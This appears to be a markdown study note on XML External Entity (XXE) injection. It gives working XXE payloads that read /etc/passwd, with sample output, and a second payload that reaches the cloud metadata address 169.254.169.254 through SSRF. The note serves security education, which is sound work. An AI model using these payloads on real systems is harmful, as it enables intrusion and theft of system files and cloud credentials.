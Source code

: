 # 20. XXE (XML External Entity) Injection

5th more common OWASP Top 10

## What is XML

- **Extensible Markup Language**
- Use: Store and transport data

```
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder></heading>
  <body>Don't forget me this weekend!</body>
</note>
```

## Exploiting a Basic XXE Injection

Content-Type: application/xml

```
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>4</productId>
    <storeId>1</storeId>
  </stockCheck>
```

Burp Suite -> Send to Repeater

Manipulate this XML markup to give us useful data

```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
  </stockCheck>
```

Outcome:
```
root:x:0:0:root:/root:/bin/bash
deamon:x:1:1:deamon:/usr/sbin:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
```

## Discovering an SSRF Through a Blink XXE

Hacker -> XXE -> Vulnerable Website -> SSRF -> Server with Sensitive Data 169.254.169.254

```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
  <stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
  </stockCheck>
```

Instead of specifying a file, we are specifying a remote server to communicate with and use that to gather information

1. Access internal resources
2. Discover blind / out-of-bound XXE

---

